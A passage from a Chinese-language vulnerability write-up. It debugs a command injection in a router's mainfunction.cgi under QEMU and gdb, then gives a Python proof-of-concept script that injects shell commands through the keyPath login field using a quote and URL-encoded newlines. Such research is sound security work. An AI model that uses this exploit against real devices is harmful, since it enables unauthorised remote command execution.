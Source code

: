 ### 6. 调试分析构造 poc

Sevnup 会把 qemu 映射到 1234 端口，直接用 gdb-multiarch 连接即可。之前做过 armpwn 知道寄存器排布如下：

> arm 架构中，调用号 3 是 read，4 是 write，5 是 open，0xb 是 execve。
> 
> r7 用来存储系统调用号。
> 
> r0,r1,r2 分别为三个参数。其中 r2 的控制较为麻烦，不过问题不大。

执行命令，其中 0xa4c8 是 system 的地址：

```
pwndbg> b * 0xa4c8
Breakpoint 1 at 0xa4c8
pwndbg> set architecture arm
The target architecture is set to "arm".
pwndbg> target remote :1234
Remote debugging using :1234

```

看到第一个参数就是命令，起码执行了 system 说明我们的路径约束没问题，主要是构造命令出了问题。

![](https://bbs.kanxue.com/upload/attach/202408/995344_TE2QPSZ5RXXETX6.webp)

我们看看我们的`ls`被改成什么了：

```
pwndbg> x/s $r0
0xbeaf8410: "rm -f '/tmp/rsa/private_key_ls' '/tmp/rsa/binary_login' 'ls'"

```

也就是说它实际上执行了：

```
rm -f '/tmp/rsa/private_key_ls' '/tmp/rsa/binary_login' 'ls'

```

这…… 显然没有达到我们想要的目的，他达成了删除三个东西。如何绕过呢？我们试试用`'`。

然而这样并不能解决嵌套命令的问题。而后我又尝试了用`\n`发现还是不能，因为`\n`导致直接截断了。最后发现可以用 URL 编码 %0A 解决这个问题！所以我们最后的脚本如下：

```
import argparse
import requests
 
def system(host,cmd):
    cmd = "\'%0A" + cmd + "%0A"
    try:
        headers = {
            "HOST":"10.10.10.2",
            "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36",
            "Content-Type": "text/plain; charset=UTF-8",
            "Accept": "*/*",
            }
        url = host + "/cgi-bin/mainfunction.cgi"
        data = f"action=login&keyPath={cmd}&loginUser=N1nEmAn&loginPwd=Hack"
        res = requests.post(url=url, data=data,headers=headers)
        if res.status_code == 200 and res.text != "":
            print("[+] Command executed successfully")
            print("[+] Result: \n" + res.text)
            return res.text
        else:
            print('[-] Command execute failed! Nothing...')
            return 1
```